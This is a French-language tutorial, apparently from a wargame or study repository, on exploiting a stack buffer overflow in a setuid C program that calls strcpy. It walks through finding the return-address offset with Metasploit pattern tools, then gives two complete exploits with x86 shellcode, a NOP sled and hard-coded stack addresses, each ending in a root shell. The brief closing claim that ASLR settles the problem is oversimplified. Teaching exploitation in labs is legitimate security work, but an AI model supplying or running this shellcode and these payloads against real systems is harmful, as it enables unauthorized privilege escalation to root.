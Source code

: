 # Le Stack Overflow

## I. Introduction
Le Stack Overflow consiste à utiliser une faille applicative pour écrire en mémoire et détourner le flow du programme. Nous allons par exemple tenter ici de faire executer un shell root à un programme suid lambda.

## II. Pré-requis
* Un programme suid
* Un code permettant le buffer overflow

Soit le programme `vuln` suivant :
```{r, engine='C'}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void copy(char *arg)
{
	char msg[256];
	strcpy(msg,arg);
    printf("Votre argument est : %s\n",msg);
}

int main(int argc, char **argv)
{
	copy(argv[1]);
	return 0;
}
```

## III. La faille
Ce programme permet le Stack Overflow puisque l'input utilisateur n'est controlé à aucun moment et que `strcpy()` se contente de copier bêtement l'input dans la variable `msg`. Ainsi on peut écrire dans la mémoire.  
L'idée va être d'écraser l'adresse de retour du programme vulnérable par l'adresse de notre shellcode.

## IV. Exploitation

### On détermine l'offset de l'adresse de retour
Pour cela, on génère on suite de caractère unique sur kali :
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```
On execute notre programme vulnérable sous le debugger `gdb`
```{r, engine='bash'}
aas@ubuntu:~$ gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9'")
Votre argument est : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
Cannot access memory at address 0x6a413969
0x6a413969 in ?? ()
```
Kali va maintenant nous dire à l'octet près là où nous pouvons réécrire l'adresse de retour
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb $(ruby -e 'print "\x6a\x41\x39\x69".reverse')
[*] Exact match at offset 268
```
Sans cette technique, il aurait fallu procéder par dicotomie jusqu'à tomber sur le bon offset.

### Détournement du programme
Plusieurs solutions existent ici, nous verrons les deux plus simples : exploitation à l'aide de l'environnement, et exploitation directe (ce sont des termes maison hein :p)

#### 1. A l'aide de l'environnement
Nous commençons par stocker notre shellcode précédé d'une floppé de NOP afin de se laisser une marge :

```{r, engine='bash'}
aas@ubuntu:~$ export SC=$(python -c "print '\x90'*100+'\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80'")
```

Nous récupérons l'adresse de notre variable SC grâce au programme suivant :

```{r, engine='bash'}
#include <stdio.h>
aas@ubuntu:~$ cat get_env
void main()
{
        printf("ad: 0x%lx\n", getenv("SC"));
}
aas@ubuntu:~$ ./get_env
ad: 0xbffffed3
```
Nous devons donc écraser l'adresse de retour avec l'adresse de notre variable SC : 0xbffffed3
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln $(python -c "print 'A'*268 + '\xd3\xfe\xff\xbf'")
\# whoami
root
```

#### 2. Par exploitation directe
Lorsque le buffer est assez grand, nous pouvons tout faire rentrer et l'utilisation de l'environnement n'est pas nécéssaire.  
Le principe est toujours d'écraser l'adresse de retour pour la faire pointer dans nos NOP. Il faut donc récupérer une des adresses pointant sur nos NOP.
```{r, engine='bash'}
aas@ubuntu:~$ gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r $(python -c "print 'A'*184 + '\x90'*50 + '\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80' + 'AAAA'")
0xbffffec0:	0x2d465455	0x494c0038	0x3d53454e	0x53003133
0xbffffed0:	0x90903d43	0x90909090	0x90909090	0x90909090
0xbffffee0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffef0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff00:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff10:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff20:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff30:	0x90909090	0x316a9090	0x80cd9958	0xc189c389
0xbfffff40:	0xcd58466a	0x520bb080	0x732f6e68	0x2f2f6868
0xbfffff50:	0xe3896962	0x80cdd189	0x53494800	0x4e4f4354
0xbfffff60:	0x4c4f5254	0x6e67693d	0x6265726f	0x0068746f
0xbfffff70:	0x454d4f48	0x61772f3d	0x6d616772	0x656d2f65
```
On voit nos NOP (\x90). Il suffit de choisir une adresse d'un NOP au milieu de la floppé pour se laisser de la marge. Disons l'adresse `0xbfffff10`. Il nous suffit maintenant de remplacer les AAAA par cette adresse et le tour est joué.
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln $(python -c "print 'A'*184 + '\x90'*50 + '\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80' + '\x10\xff\xff\xbf'")
\# whoami
root
```

## V. Sécurisation
Aujourd'hui, les kernels sont patchés contre ce problème. L'ASLR palie à ce problème.
